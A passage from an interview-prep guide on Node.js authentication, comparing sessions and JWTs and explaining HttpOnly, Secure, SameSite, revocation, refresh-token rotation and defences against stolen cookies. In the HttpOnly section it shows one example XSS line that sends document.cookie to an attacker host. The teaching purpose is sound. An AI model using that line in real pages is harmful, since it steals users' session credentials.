const token = jwt.sign(...);
res.cookie("access_token", token, ...);
```

---

# 32. JWT Authentication Middleware

Example:

```ts
function requireAuth(
  req: Request,
  res: Response,
  next: NextFunction
) {
  const token = req.cookies.access_token;

  if (!token) {
    return res.status(401).json({
      message: "Unauthorized",
    });
  }

  try {
    const payload = jwt.verify(
      token,
      process.env.JWT_SECRET!,
      {
        issuer: "my-api",
        audience: "my-web-app",
      }
    );

    req.user = {
      id: payload.sub,
    };

    next();
  } catch {
    return res.status(401).json({
      message: "Unauthorized",
    });
  }
}
```

The important operation is:

```ts
jwt.verify(...)
```

Do not simply decode the JWT and trust its payload.

For authentication, the signature and registered constraints such as expiration, issuer, and audience need to be verified according to the application's design.

---

# 33. `jwt.decode()` vs `jwt.verify()`

This is another good interview question.

```ts
jwt.decode(token)
```

decodes the token.

It does **not** prove that the token is authentic.

```ts
jwt.verify(token, secret)
```

verifies the signature and validates the token according to the configured verification rules.

Therefore:

```text
decode = read
verify = authenticate/validate
```

Never use `decode()` alone as an authentication mechanism.

---

# 34. JWT in Cookie vs JWT in Authorization Header

A JWT can be transported in different ways.

## Option A — HttpOnly cookie

```http
Cookie: access_token=<JWT>
```

Advantages:

- Browser automatically sends it.
- `HttpOnly` prevents normal JavaScript from reading it.
- Familiar browser authentication model.

Considerations:

- Cookie authentication introduces CSRF considerations.
- Need correct `SameSite`, CSRF, CORS, and origin configuration.

---

## Option B — Authorization header

Client sends:

```http
Authorization: Bearer <JWT>
```

The application explicitly attaches the token.

Advantages:

- Common for APIs.
- Not automatically attached to arbitrary cross-site requests in the same way cookies are.
- Useful for non-browser clients and service-to-service APIs.

Important consideration:

- If a browser application stores the JWT somewhere accessible to JavaScript, an XSS vulnerability can potentially expose the token.

---

# 35. JWT in localStorage

A common implementation is:

```ts
localStorage.setItem("accessToken", token);
```

and then:

```http
Authorization: Bearer <token>
```

This can work technically, but it has an important security tradeoff:

If malicious JavaScript executes in your application's origin, it can potentially read:

```ts
localStorage.getItem("accessToken");
```

and exfiltrate the token.

Therefore, for a browser application, an HttpOnly cookie can be preferable when a cookie-based architecture fits the requirements.

---

# 36. Session vs JWT

The key distinction:

## Session



The authentication state is stored server-side.

## JWT



The token carries the claims required to identify the user.

---

# 37. Session-Based Authentication Is Stateful

With sessions:

```text
sessionId -> server-side state
```

The server needs to maintain authentication state.

Benefits:

- Easy revocation.
- Logout can invalidate the session immediately.
- Session data can be changed centrally.
- Good fit for conventional browser applications.

Costs:

- Requires session storage.
- Distributed systems need shared session storage such as Redis.
- Requests depend on server-side session state.

---

# 38. JWT Authentication Can Be Stateless

With a self-contained access JWT:

```text
JWT -> signed claims
```

The server can verify the token without looking up a session in Redis.

Benefits:

- Easy to validate across multiple services.
- No centralized session lookup is required for each request.
- Useful for APIs, distributed systems, and multiple client types.

Costs:

- Revocation is harder.
- A stolen valid token may remain usable until it expires.
- Token lifetime and refresh strategy become important.
- JWTs can be overused when a traditional session would be simpler.

JWT is not automatically "more secure" than sessions.

---

# 39. JWT Logout

With a traditional session:



The session becomes invalid immediately.

With a self-contained JWT:



The server may have no state indicating that the token was revoked.

If the token is still valid and an attacker has copied it, the token could remain usable until expiration unless the system has a revocation mechanism.

This is one reason access tokens are often short-lived.

---

# 40. Access Tokens and Refresh Tokens

A common JWT architecture uses:

```text
short-lived access token
+
longer-lived refresh token
```

For example:

```text
Access token:
15 minutes

Refresh token:
days/weeks, depending on security requirements
```

The access token is used frequently:

```text
GET /api/profile
Authorization: Bearer <access-token>
```

When it expires, the client uses a refresh token to obtain a new access token.

Conceptually:



Refresh tokens need particularly careful protection because they can provide long-lived access.

A common browser architecture is to keep refresh credentials in a secure HttpOnly cookie and use short-lived access tokens, but the exact design depends on the application.

---

# 41. Refresh Token Rotation

A stronger refresh-token architecture can rotate refresh tokens.

Conceptually:

```mermaid
flowchart TD
    A[Refresh token A] --> V[server validates A]
    V --> AT[issue access token]
    V --> B[issue refresh token B]
    V --> INV[invalidate A]
```

If a previously used refresh token appears again, the server can detect possible token reuse and respond according to its security policy.

This requires server-side state for refresh-token tracking/revocation even if access tokens are otherwise stateless.

---

# 42. Session vs JWT: Detailed Comparison

| Concern | Session | JWT |
|---|---|---|
| Authentication state | Server-side | In token |
| Typical browser transport | Cookie | Cookie or Authorization header |
| Redis required | Often for scalable deployment | Not necessarily for access-token verification |
| Server-side state | Yes | Can be stateless |
| Immediate revocation | Easy | Harder |
| Logout | Destroy session | Delete/revoke token depending on design |
| Scaling | Shared session store commonly needed | Easier for stateless access tokens |
| CSRF with HttpOnly cookie | Yes, must consider | Yes, if JWT is in cookie |
| XSS token theft | HttpOnly cookie helps | Depends on storage |
| Token payload | Server-side | Contains claims |
| Complexity | Often simpler for browser apps | Can become complex with refresh/revocation |
| API/service-to-service use | Possible | Common |
| Multi-service verification | Requires shared session infrastructure | JWT can be verified by multiple services |

---

# 43. Cookies and JWT Are Not Opposites

This is an important conceptual point.

A cookie is a **browser storage/transport mechanism**.

JWT is a **token format**.

Therefore:

```text
Cookie + Session ID
```

is possible.

And:

```text
Cookie + JWT
```

is also possible.

And:

```text
Authorization header + JWT
```

is possible.

So the correct mental model is:

```mermaid
flowchart TD
    CR[Credential] --> S[Session]
    CR --> J[JWT]
    S --> SID[session ID]
    J --> SC[signed claims]
    SID --> T[transport]
    SC --> T
    T --> CK[Cookie]
    T --> HD[Header]
    T --> ETC[etc.]
```

---

# 44. CSRF and JWT

JWT does not automatically eliminate CSRF.

If the JWT is stored in an HttpOnly cookie:

```http
Cookie: access_token=<JWT>
```

the browser automatically sends the cookie.

Therefore, the application still has CSRF considerations.

If the JWT is sent explicitly as:

```http
Authorization: Bearer <JWT>
```

the browser's JavaScript must explicitly construct the header.

This changes the CSRF threat model.

However, if the token is accessible to JavaScript, XSS becomes an important concern.

Therefore, the question is not simply:

> "JWT or cookie?"

It is:

> "Where is the credential stored, how is it transported, how is it protected, how is it expired, and how can it be revoked?"

---

# 45. XSS vs CSRF

These are often confused.

## XSS — Cross-Site Scripting

Attacker gets malicious JavaScript to execute in your application's origin.

Potential consequence:

```mermaid
flowchart LR
    M[malicious JavaScript] --> A[read localStorage token]
    M --> B[make authenticated requests]
    M --> C[potentially access sensitive page data]
```

`HttpOnly` can prevent JavaScript from directly reading an authentication cookie.

---

## CSRF — Cross-Site Request Forgery

Attacker causes the victim's browser to make a request to another site where the victim is authenticated.

Cookie:

```text
Cookie: sessionId=abc123
```

may be automatically attached.

Defenses include:

- SameSite cookies
- CSRF tokens
- Origin validation
- appropriate cookie configuration

---

# 46. Brute-Force Protection

The login endpoint is a high-value target.

An attacker can repeatedly try:

```text
POST /login
```

with many passwords.

Use rate limiting:

```ts
import rateLimit from "express-rate-limit";

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  limit: 20,
});

app.post(
  "/api/login",
  loginLimiter,
  loginHandler
);
```

Real systems may use more sophisticated controls, such as:

- per-IP throttling
- per-account throttling
- progressive delays
- bot detection
- monitoring and alerting

Avoid overly aggressive lockouts that allow attackers to intentionally lock out legitimate users.

---

# 47. Generic Login Errors

Avoid revealing whether an account exists.

Instead of:

```text
User does not exist
```

and:

```text
Wrong password
```

use:

```text
Invalid email or password
```

This reduces account-enumeration opportunities.

Other authentication endpoints, such as password reset and registration, should also be designed with enumeration and abuse in mind.

---

# 48. Password Reset

A typical password reset architecture is different from normal login.

Conceptually:

```mermaid
flowchart TD
    A[User requests password reset] --> B[Generate random reset token]
    B --> C[Store hashed token + expiration]
    C --> D[Send reset link by email]
    D --> E[User opens link]
    E --> F[Verify token + expiration]
    F --> G[Set new bcrypt password hash]
    G --> H[Invalidate reset token]
```

Do not store reset tokens as permanent plaintext credentials if avoidable.

Reset tokens should be:

- random
- short-lived
- single-use
- invalidated after successful use

After a password change/reset, consider invalidating existing sessions or refresh tokens according to the application's security policy.

---

# 49. HTTPS

Authentication credentials must be protected in transit.

Use:

```text
HTTPS
```

not plain HTTP.

For cookies:

```ts
secure: true
```

prevents the cookie from being sent over non-HTTPS connections.

TLS protects the communication channel from network attackers observing or modifying traffic in transit.

---

# 50. Security Headers

`helmet` is commonly used with Express:

```bash
yarn add helmet
```

Example:

```ts
import helmet from "helmet";

app.use(helmet());
```

It helps configure several HTTP security headers.

It is not a replacement for correct authentication, authorization, CSRF, or input-validation design.

---

# 51. Input Validation

Do not trust:

```ts
req.body
req.params
req.query
```

Validate input.

Common validation libraries include:

- Zod
- Joi
- Yup
- express-validator

For example, validate:

```text
email
password
user ID
pagination values
role
```

before processing them.

Input validation is separate from authentication but part of a secure API implementation.

---

# 52. SQL/NoSQL Injection

Never construct database queries by concatenating raw user input.

Bad conceptual example:

```text
"SELECT * FROM users WHERE email = '" + email + "'"
```

Use parameterized queries or an ORM/query builder that safely parameterizes values.

Authentication endpoints are particularly sensitive because attackers frequently target them.

---

# 53. Recommended Interview Architecture

For a traditional browser application, a strong architecture to explain is:

```mermaid
flowchart TD
    B[React Browser] -->|HTTPS| N["Express / Node.js"]
    N --> AUTHN[Authentication Middleware]
    N --> AUTHZ[Authorization]
    AUTHN --> DB
    AUTHN --> R
    AUTHZ --> DB[("Database<br/>Users")]
    AUTHZ --> R[("Redis<br/>Sessions")]
```

Login:

```mermaid
flowchart TD
    A[email/password] --> B[find user]
    B --> C["bcrypt.compare()"]
    C --> D[regenerate session]
    D --> E[session.userId = user.id]
    E --> F[(Redis)]
    F --> G[HttpOnly + Secure + SameSite cookie]
```

---

# 54. Recommended JWT Architecture

For a token-based architecture:

```mermaid
flowchart TD
    B[React Browser] -->|HTTPS| N["Express / Node.js"]
    N --> V[Verify JWT]
    V --> C[Claims]
    C --> U[userId]
    U --> DB[(Database)]
```

Login:

```mermaid
flowchart TD
    A[email/password] --> B[find user]
    B --> C["bcrypt.compare()"]
    C --> D[sign JWT]
    D --> E[HttpOnly cookie]
    D --> F[Authorization header]
```

If using refresh tokens:

```mermaid
flowchart TD
    L[Login] --> AT[Access token<br/>short-lived]
    L --> RT[Refresh token<br/>longer-lived]
    AT --> API[API]
    RT --> REF[refresh endpoint]
    REF --> NAT[new access token]
```

---

# 55. A Strong Interview Answer

If asked:

> "How would you implement login in Node.js?"

A strong answer:

> "For a conventional browser-based application, I'd use server-side session authentication. The user submits an email and password over HTTPS. I retrieve the user from the database and verify the password using bcrypt against the stored password hash. After successful authentication, I'd regenerate the session to mitigate session fixation, store the user ID in the session, and use Redis as the shared session store so multiple Node.js instances can access the same session. The browser receives an HttpOnly, Secure, appropriately configured SameSite cookie containing the session identifier. Authentication middleware checks the session for protected routes, while separate authorization middleware checks roles or permissions."

Then add:

> "For applications that need token-based or stateless authentication, I'd consider JWTs. After verifying the password, the server signs a short-lived JWT containing minimal claims such as `sub`, `role`, `iat`, and `exp`. The JWT can be stored in an HttpOnly cookie or sent using an Authorization Bearer header. The server verifies the signature and claims on each request. If refresh tokens are used, I'd make them long-lived but carefully protected, and consider rotation and revocation."

---

# 56. Important Interview Questions to Be Ready For

## Q: Why bcrypt instead of SHA-256?

SHA-256 is designed to be fast.

Password hashing should intentionally be slow and resistant to brute-force attacks.

bcrypt is designed specifically for password hashing and has a configurable computational cost.

Modern systems may also use algorithms such as Argon2id, which is an important alternative to know.

---

## Q: Is the bcrypt salt secret?

No.

The salt is stored with the password hash.

Its purpose is uniqueness and resistance to precomputation, not secrecy.

---

## Q: Is the session secret the same as the bcrypt salt?

No.

bcrypt salt:

```text
public
per-password
```

Session secret:

```text
private
server-side
used to protect/sign session cookies
```

---

## Q: Is JWT encrypted?

Normally no.

JWT payloads are typically encoded, not encrypted.

Anyone who obtains the token can decode the payload.

The signature protects integrity/authenticity.

If confidentiality is required, encryption is a separate concern.

---

## Q: Can I put a JWT in a cookie?

Yes.

For example:

```ts
res.cookie("access_token", token, {
  httpOnly: true,
  secure: true,
  sameSite: "lax",
});
```

JWT and cookies are not competing concepts.

---

## Q: Is JWT automatically more secure than sessions?

No.

Security depends on the implementation and threat model.

Sessions can be very secure.

JWTs can also be secure.

JWTs introduce design considerations around:

- expiration
- refresh tokens
- revocation
- storage
- token theft
- key management

---

## Q: Why Redis for sessions?

Because the default in-memory session store is not appropriate for production and doesn't work well across multiple Node.js instances.

Redis provides shared session storage.

---

## Q: What happens if Redis goes down?

Depending on the architecture, existing sessions may become unavailable because the server cannot retrieve session state.

This is an availability consideration and should be handled with appropriate Redis deployment, monitoring, replication/failover, and operational practices.

---

## Q: Why HttpOnly?

To prevent ordinary JavaScript from reading the authentication cookie.

This reduces the impact of token/session theft through JavaScript.

It does not make the application immune to XSS or CSRF.

---

## Q: Why SameSite?

To control when browsers send cookies in cross-site contexts and reduce CSRF risk.

---

## Q: What is CSRF?

An attacker causes a victim's browser to send an authenticated request to a site where the victim is logged in.

Cookie-based authentication is particularly relevant because cookies are automatically attached to matching requests.

---

## Q: Does HttpOnly prevent CSRF?

No.

HttpOnly prevents JavaScript from reading the cookie.

CSRF defenses include:

- SameSite
- CSRF tokens
- Origin validation

---

## Q: What is session fixation?

An attacker attempts to make a victim use a known/preselected session identifier and then benefits when that session becomes authenticated.

Regenerating the session identifier after login is a standard defense.

---

# 57. Final Mental Model

The most important concepts to remember for the interview:

```mermaid
flowchart TD
    L[LOGIN] --> EP[email + password]
    EP --> FU[find user]
    FU --> BC["bcrypt.compare()"]
    BC -->|invalid| E401[401]
    BC -->|valid| CAS[Create auth state]
    CAS --> S[SESSION]
    CAS --> J[JWT]
    S --> SID[session ID]
    J --> CL[claims]
    SID --> R[(Redis)]
    CL --> ST[signed token]
    R --> BR[Browser]
    ST --> BR
    BR --> T["Cookie / Header"]
```

For sessions:

```mermaid
flowchart TD
    B[Browser] -->|session cookie| N[Node.js]
    N -->|session ID| R[(Redis)]
    R --> U[userId]
```

For JWT:

```mermaid
flowchart TD
    B[Browser] -->|JWT cookie or Authorization header| N[Node.js]
    N -->|verify signature + claims| U["userId / roles"]
```

For browser security:

```text
HttpOnly
    -> JavaScript cannot directly read cookie

Secure
    -> HTTPS only

SameSite
    -> controls cross-site cookie sending

CSRF token
    -> additional proof for state-changing requests

Origin validation
    -> verify request origin

Rate limiting
    -> slow down brute-force attacks

bcrypt / Argon2id
    -> protect stored passwords

HTTPS
    -> protect credentials in transit
```

The most important conceptual distinction:

> **A cookie is a transport/storage mechanism. A session is a server-side authentication mechanism. A JWT is a signed token format.**

Therefore, you can have:

```text
Session + Cookie
JWT + Cookie
JWT + Authorization header
```

Those are different combinations of authentication state and credential transport.

---

# Protecting Authentication When Someone Steals a Cookie

## Interview Deep Dive: Session Theft, Cookie Theft, and Account Takeover

A common authentication question is:

> **“What happens if someone steals the authentication cookie from my computer? How do I protect against that?”**

This is an important question because it is a different threat from CSRF.

If an attacker obtains a valid authentication cookie, they may be able to impersonate the user without knowing the user's password.

The right security strategy is not one magic cookie flag. It is a combination of:

1. Preventing cookie theft where possible
2. Detecting suspicious use
3. Limiting the lifetime of stolen credentials
4. Supporting server-side revocation
5. Requiring stronger authentication for sensitive operations
6. Protecting the user's device and network

---

# 1. First Understand What Is Being Stolen

Consider a traditional session-based application.

After login:

```mermaid
flowchart TD
    B[Browser] -->|"Cookie: connect.sid=s%3AABC123..."| S[Server]
    S -->|session ID| R[("Redis<br/>ABC123 → { userId: 42 }")]
```

The browser stores a session cookie.

The server stores the actual session state in Redis.

If an attacker steals the valid session cookie:

```text
connect.sid=s%3AABC123...
```

they may be able to send requests that look like they came from the legitimate browser.

For example:

```http
GET /api/me
Cookie: connect.sid=s%3AABC123...
```

The server may look up:

```text
ABC123 -> userId 42
```

and conclude:

```text
"This request is authenticated as user 42."
```

The attacker does not necessarily need the user's password.

This is why an authenticated session cookie should be treated as a **credential**.

---

# 2. A Stolen Cookie Is Not the Same as CSRF

These two attacks are easy to confuse in an interview.

## CSRF

The attacker does **not** necessarily know the victim's cookie.

Instead, they trick the victim's browser into making a request.

Conceptually:

```mermaid
flowchart TD
    A[Attacker] -->|tricks victim into visiting malicious site| V[Victim Browser]
    V -->|automatically attaches authentication cookie| APP[Your Application]
```

The attacker is abusing the browser's automatic cookie behavior.

The attacker may not be able to read the response.

---

## Cookie Theft

Here the attacker actually obtains the authentication credential.

```mermaid
flowchart TD
    V[Victim Browser] -->|stolen cookie| A[Attacker]
    A -->|sends requests using stolen cookie| APP[Your Application]
```

This is closer to stealing someone's physical access badge.

The attacker possesses the credential itself.

---

# 3. What Does `HttpOnly` Protect Against?

A common cookie configuration is:

```ts
res.cookie("session", sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: "lax",
});
```

`HttpOnly` means JavaScript running in the page cannot normally read the cookie.

For example:

```js
document.cookie
```

will not expose an `HttpOnly` cookie.

This is very useful against a common XSS consequence:

```mermaid
flowchart TD
    X[XSS] -->|JavaScript executes| D["document.cookie"]
    D --x H[HttpOnly authentication cookie is not readable]
```

Without `HttpOnly`, malicious JavaScript might attempt:

```js
fetch("https://attacker.example/steal?cookie=" + document.cookie);
```

With `HttpOnly`, the authentication cookie is hidden from ordinary JavaScript.

## Important limitation

`HttpOnly` does **not** mean:

> "The cookie can never be stolen."

It only prevents normal JavaScript access to the cookie.

It does not protect against:

- malware on the machine
- malicious browser extensions with sufficient privileges
- a compromised browser
- endpoint compromise
- someone with access to the browser's stored data
- other forms of local credential theft

So:

```text
HttpOnly = reduce JavaScript-based cookie theft
```

not:

```text
HttpOnly = impossible to steal
```

---

# 4. What Does `Secure` Protect Against?

Use:

```ts
secure: true
```

This tells the browser to send the cookie only over HTTPS.

Without HTTPS, an attacker on an unsafe network could potentially intercept traffic.

Conceptually:

```mermaid
flowchart TD
    B[Browser] -->|HTTP| N[Network attacker]
    N -->|potentially observes traffic| S[Server]
```

With HTTPS:

```mermaid
flowchart TD
    B[Browser] -->|encrypted HTTPS connection| S[Server]
```

`Secure` helps ensure the browser does not send the cookie over an insecure HTTP connection.

## Important limitation

`Secure` does not protect a cookie after an attacker has already obtained it.

If the attacker has:

```text
connect.sid=ABC123
```

they may still be able to use it against your HTTPS endpoint.

So:

```text
Secure = protect transmission
```

not:

```text
Secure = stolen cookies become useless
```

---

# 5. What Does `SameSite` Protect Against?

Example:

```ts
sameSite: "lax"
```

`SameSite` primarily helps defend against **CSRF** by restricting when browsers send cookies in cross-site contexts.

Possible values include:

```text
Strict
Lax
None
```

A simplified mental model:

```mermaid
flowchart LR
    S[SameSite] --> A[Controls cross-site cookie sending]
    S --> B[Helps mitigate CSRF]
```

It is not primarily a stolen-cookie defense.

If an attacker already possesses:

```text
session=ABC123
```

`SameSite` does not magically invalidate it.

Therefore:

```text
HttpOnly -> reduces JS cookie theft
Secure   -> protects cookie transmission
SameSite -> reduces cross-site cookie abuse / CSRF
```

These solve different problems.

---

# 6. The Most Important Defense: Short-Lived Sessions

Suppose a session is valid for 30 days.

An attacker steals the cookie today.

If nothing else changes, the attacker might potentially use it for a long time.

Now suppose the session expires after a much shorter period.

The stolen credential has a much smaller useful window.

Conceptually:

```mermaid
flowchart TD
    A[Cookie stolen] --> B[Valid session lifetime]
    B --> C[Session expires]
    C --> D[Stolen cookie no longer works]
```

This is an example of **limiting the blast radius**.

There is a tradeoff:

```text
Long session lifetime
    -> better convenience
    -> larger theft window

Short session lifetime
    -> smaller theft window
    -> more frequent authentication
```

A real application chooses an appropriate lifetime based on the sensitivity of the application.

---

# 7. Session Revocation Is Extremely Valuable

This is one of the strongest advantages of server-side sessions.

Suppose Redis contains:

```text
session:ABC123 -> {
  userId: 42
}
```

An administrator or the user logs out.

The server can delete:

```text
session:ABC123
```

Now the attacker still has:

```text
connect.sid=ABC123
```

but the server says:

```text
ABC123 -> no session
```

and rejects the request.

This is why server-side session storage makes revocation straightforward.

## Mental model

```mermaid
flowchart TD
    A[Attacker has cookie] --> C[Cookie = ABC123]
    C --> R[(Redis lookup)]
    R --x N[No active session]
    N --> E[401 Unauthorized]
```

The stolen cookie itself does not determine whether authentication is still valid.

The server-side session does.

---

# 8. Logout Should Invalidate the Session

A proper logout flow should not merely tell the browser:

> "Please forget this cookie."

The server should invalidate the corresponding session.

For example:

```ts
req.session.destroy((err) => {
  if (err) {
    return res.status(500).json({
      message: "Could not log out",
    });
  }

  res.clearCookie("connect.sid");

  res.sendStatus(204);
});
```

The important security action is:

```ts
req.session.destroy(...)
```

because it invalidates the server-side session.

Clearing the browser cookie alone is not enough if an attacker has already copied the cookie.

---

# 9. "Log Out All Devices"

A mature authentication system often allows:

> **Log out all other devices**

This is extremely useful if the user suspects their session has been stolen.

Instead of storing only one session per user, you can maintain multiple sessions:

```text
User 42

Session A -> laptop
Session B -> phone
Session C -> tablet
Session D -> another browser
```

You can then allow:

```text
Log out session B
```

or:

```text
Log out all sessions
```

Conceptually:

```mermaid
flowchart LR
    U[User] --> A[Session A]
    U --> B[Session B]
    U --> C[Session C]
    U --> D[Session D]
```

Delete all session records:

```mermaid
flowchart LR
    U[User] --x A[Session A]
    U --x B[Session B]
    U --x C[Session C]
    U --x D[Session D]
```

The attacker loses access when their session is invalidated.

---

# 10. Track Sessions Per User

A useful design is to store metadata about active sessions.

For example:

```ts
type UserSession = {
  id: string;
  userId: string;
  createdAt: Date;
  lastSeenAt: Date;
  userAgent?: string;
  ipAddress?: string;
};
```

This can power a UI such as:

```text
Active Sessions

Chrome - Windows
Last active: 2 minutes ago

Safari - iPhone
Last active: 1 hour ago

Firefox - Linux
Last active: yesterday

[Log out] [Log out all other devices]
```

This gives the user visibility and control.

---

# 11. Be Careful With IP Addresses

You may hear an interviewer suggest:

> "Bind the session to the user's IP address."

This can provide some signal, but it is not a perfect security mechanism.

Users can legitimately change IP addresses because of:

- mobile networks
- VPNs
- corporate networks
- proxies
- ISP changes
- Wi-Fi changes

Therefore, rejecting a session whenever the IP changes can create false positives.

A better approach is often:

```mermaid
flowchart TD
    IP[IP change] --> R[risk signal]
    R --> A[possibly ask for reauthentication]
    R --> B[log security event]
    R --> C[notify user]
```

rather than:

```text
IP changed -> automatically destroy session
```

IP information can be useful for detection, but should not be treated as a permanent identity.

---

# 12. Reauthentication for Sensitive Operations

One of the most important principles is:

> **Having an authenticated session does not necessarily mean the user should be trusted for every sensitive operation without additional verification.**

Imagine an attacker steals a session cookie.

They may be able to access the account.

But when they try:

```text
Change password
Change email
Disable MFA
Add payment method
Transfer money
Delete account
```

the application can require:

```text
Enter your password
```

or:

```text
Enter your MFA code
```

This is called **reauthentication** or **step-up authentication**.

Example:

```mermaid
flowchart TD
    N[Normal request] --> S[Authenticated session]
    S --> A[Access account]
```

Sensitive action:

```mermaid
flowchart TD
    S[Authenticated session] --> O[Sensitive operation]
    O --> R["Require password / MFA"]
    R --> A[Allow operation]
```

This limits what an attacker can do with a stolen session.

---

# 13. MFA Helps, But It Does Not Solve Stolen Sessions

Multi-factor authentication is excellent for protecting the login process.

For example:

```text
Password
+
Authenticator code
=
Login
```

But consider:

```mermaid
flowchart TD
    L[User logs in successfully] --> C[Session cookie created]
    C --> A[Attacker steals cookie]
```

The attacker may not need to perform the login again.

They may simply replay the authenticated session.

Therefore:

```text
MFA protects authentication
```

but:

```text
MFA does not automatically make stolen sessions useless
```

This is another reason step-up MFA can be valuable for high-risk actions.

---

# 14. Session Rotation and Session Fixation

When a user authenticates, the application should make sure an attacker cannot force the victim to use a session ID that the attacker already knows.

This is called **session fixation**.

Conceptually:

```mermaid
flowchart TD
    A[Attacker knows session ID] --> B[Victim logs in using that session]
    B --> C[Session becomes authenticated]
    C --> D[Attacker reuses known session ID]
```

A common defense is to regenerate the session ID after authentication.

With `express-session`, conceptually:

```ts
req.session.regenerate((err) => {
  if (err) {
    return next(err);
  }

  req.session.userId = user.id;

  res.sendStatus(204);
});
```

The exact implementation depends on the application's session setup, but the important interview concept is:

> **Regenerate the session identifier when privilege/authentication state changes.**

This is different from periodic rotation.

Session regeneration helps prevent an attacker from pre-selecting or fixing a session identifier.

---

# 15. Does Rotating the Session ID Stop a Stolen Cookie?

Not automatically.

Suppose:

```text
Old session ID = ABC123
Attacker has ABC123
```

If the server changes the session ID to:

```text
New session ID = XYZ789
```

and properly invalidates the old session:

```text
ABC123 -> invalid
XYZ789 -> valid
```

then the old stolen cookie becomes useless.

But simply generating another cookie without invalidating the old credential is not sufficient.

The important concept is:

> **Rotation only helps if the previous credential is actually invalidated or otherwise made unusable.**

---

# 16. What Happens With JWT?

JWT changes the situation.

Suppose the server creates:

```text
JWT =
HEADER.PAYLOAD.SIGNATURE
```

and sends it in a cookie:

```http
Set-Cookie: access_token=<JWT>
```

The browser sends it automatically.

If an attacker steals the JWT:

```mermaid
flowchart TD
    A[Attacker] -->|stolen JWT| API[Your API]
```

the attacker may be able to send:

```http
Cookie: access_token=<stolen JWT>
```

The server verifies the signature.

If:

```text
signature valid
AND
token not expired
```

the server may accept it.

---

# 17. Why Stateless JWT Revocation Is Harder

With a traditional server-side session:

```mermaid
flowchart LR
    C[Cookie] --> S[Session ID] --> R[(Redis)]
```

The server can delete the Redis record.

With a completely stateless JWT:

```mermaid
flowchart LR
    C[Cookie] --> J[JWT] --> V[verify signature] --> A[accept]
```

there may be no server-side record to delete.

If the JWT is valid until:

```text
exp = 18:00
```

the server may continue accepting it until expiration.

This creates an important tradeoff.

### Server-side session

```text
Easy revocation
       +
Server-side state
```

### Stateless JWT

```text
Less server-side session state
       +
More difficult immediate revocation
```

Neither approach is universally "more secure."

They make different architectural tradeoffs.

---

# 18. Short-Lived JWT Access Tokens

A common JWT architecture uses short-lived access tokens.

For example:

```mermaid
flowchart LR
    A[Access token] --> S[short lifetime]
```

If stolen, the attacker's usable window is reduced.

A refresh token can then be used to obtain another access token.

Conceptually:

```mermaid
flowchart LR
    L[Login] --> AT[Access Token] --> S[short-lived]
    L --> RT[Refresh Token] --> LL[longer-lived]
```

This introduces another important security credential: the refresh token.

---

# 19. Refresh Token Rotation

A stronger design can rotate refresh tokens.

Conceptually:

```mermaid
flowchart TD
    A[Refresh token A] --> B[Access token B]
    A --> C[Refresh token C]
```

The old refresh token becomes invalid.

Next time:

```mermaid
flowchart TD
    C[Refresh token C] --> D[Access token D]
    C --> E[Refresh token E]
```

This can help detect replay.

For example:

```mermaid
flowchart LR
    A[Refresh token A] --> L[legitimate client uses it]
    A --x X[attacker tries using A again]
```

The server can detect reuse of an already-consumed refresh token and respond according to the application's security policy, potentially revoking the associated token family/session.

This generally requires some server-side state.

---

# 20. Cookie-Based JWT vs Session Cookie

These are often confused because both can use cookies.

## Session Cookie

```mermaid
flowchart LR
    C[Cookie] --> S[Session ID] --> R[(Redis)] --> U[User ID]
```

The cookie identifies server-side state.

## JWT Cookie

```mermaid
flowchart LR
    C[Cookie] --> J[JWT] --> V[Verify signature] --> CL[Claims] --> U[User ID]
```

The cookie contains the token itself.

Important:

> **A cookie is a browser storage/transport mechanism. A JWT is a token format. A session is an authentication-state model.**

You can have:

```text
session + cookie
```

